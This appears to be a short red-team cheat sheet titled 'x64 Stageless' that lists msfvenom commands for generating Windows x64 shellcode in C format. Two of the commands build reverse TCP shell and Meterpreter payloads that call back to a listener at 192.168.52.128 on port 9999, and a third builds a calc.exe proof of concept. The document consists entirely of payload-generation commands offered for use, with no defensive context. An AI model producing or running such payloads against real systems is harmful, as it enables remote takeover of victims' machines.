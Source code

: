 # x64 Stageless

reverse tcp
```sh
msfvenom -a x64 --platform windows -p windows/x64/shell_reverse_tcp LHOST=192.168.52.128 LPORT=9999 -f c
```

meterpreter
```sh
msfvenom -a x64 --platform windows -p windows/x64/meterpreter_reverse_tcp  LHOST=192.168.52.128 LPORT=9999 -f c
```

calc
```sh
msfvenom -a x64 --platform windows -p windows/x64/exec cmd=calc.exe -f c
```